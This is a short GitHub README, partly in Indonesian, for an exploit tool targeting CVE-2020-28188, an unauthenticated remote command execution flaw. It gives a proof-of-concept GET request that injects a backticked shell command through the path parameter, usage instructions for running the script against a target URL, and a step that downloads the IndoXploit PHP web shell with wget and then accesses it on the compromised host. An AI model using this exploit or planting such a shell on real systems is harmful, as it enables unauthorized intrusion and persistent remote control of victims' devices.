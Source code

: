 # RCE_TOS
Unauthenticated Remote Command Execution  <br>
CVE-2020-28188 <br>
Vulnerable page: /include/makecvs.php <br>
Vulnerable parameter: Event <br>
Proof of Concept: <br>
GET /tos/index.php?explorer/pathList&path=%60touch%20/tmp/file%60 HTTP/1.1 <br>

# Cara Menggunakan
pip install requests <br>
python3 RCE.PY --url target.com:8181<br>

# Upload Shell<br>
<code>
  wget https://raw.githubusercontent.com/linuxsec/indoxploit-shell/master/shell-v3.php
</code>

akses shell : http://target.com/shell.php
